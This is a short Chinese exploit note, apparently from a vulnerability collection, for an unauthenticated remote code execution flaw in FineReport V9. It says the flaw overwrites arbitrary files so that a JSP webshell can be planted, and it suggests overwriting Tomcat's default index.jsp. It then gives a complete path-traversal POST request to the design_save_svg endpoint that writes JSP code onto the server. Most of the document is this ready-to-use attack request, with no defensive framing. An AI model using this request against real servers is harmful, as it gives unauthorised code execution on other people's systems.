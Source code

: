 # 帆软 V9未授权RCE漏洞


FineReport V9

注意: 这个漏洞是任意文件覆盖，上传 JSP 马，需要找已存在的 jsp 文件进行覆盖 Tomcat 启动帆软后默认存在的 JSP 文件:

比如:/tomcat-7.0.96/webapps/ROOT/index.jsp 覆盖 Tomcat 自带 ROOT 目录下的 index.jsp:


```
POST /WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp  HTTP/1.1
Host: 192.168.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=DE7874FC92F0852C84D38935247D947F; JSESSIONID=A240C26B17628D871BB74B7601482FDE
Connection: close
Content-Type:text/xml;charset=UTF-8

Content-Length: 74

{"__CONTENT__":"<%out.println(\"Hello World!\");%>","__CHARSET__":"UTF-8"}
```

https://forum.ywhack.com/thread-115389-1-6.html